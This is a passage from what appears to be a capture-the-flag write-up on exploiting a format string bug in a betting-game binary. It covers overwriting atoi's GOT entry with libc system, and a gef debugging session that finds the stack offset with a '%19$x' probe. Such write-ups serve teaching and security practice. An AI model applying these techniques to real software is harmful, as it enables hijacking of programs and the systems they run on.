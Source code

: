 ```
Player 6 currently has 0 points.

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
```

Now when we do this for our format string, we will just write the first `17` characters of the format string to the first character, then the rest of the characters to the second name.

## Executing the format string

Now when we execute the format string, we first calculate the got address of `atoi`, and the libc address of `system`. Then we just calculate the value we need to write, and print that many bytes. You can look at the exploit for how exactly this works.

Now for where the start of our input will end up on the stack with relation to the format string, we can see specifically that they will end up at spot `19`:

```
gef➤  pie b *0x9df
gef➤  pie run
Stopped due to shared library event (no libraries added or removed)
Welcome to the ultimate betting service.
Enter the amount of players: 0
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 0000.%19$x

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
1
Amount of players playing this round: 1
Each player makes a bet between 0 -> 100, the one who lands closest win the round!
0000.%19$x's bet: 1

Breakpoint 1, 0x565559df in ?? ()
[+] base address 0x56555000
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd06c  →  "0000.%19$x"
$ebx   : 0x56557540  →  0x0000242c (",$"?)
$ecx   : 0x0       
$edx   : 0xf7fb6890  →  0x00000000
$esp   : 0xffffd020  →  0xffffd06c  →  "0000.%19$x"
$ebp   : 0xffffd0b8  →  0xffffd118  →  0x00000000
$esi   : 0x56558980  →  0x565589c0  →  "0000.%19$x"
$edi   : 0x0       
$eip   : 0x565559df  →   call 0x565555a0 <printf@plt>
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
```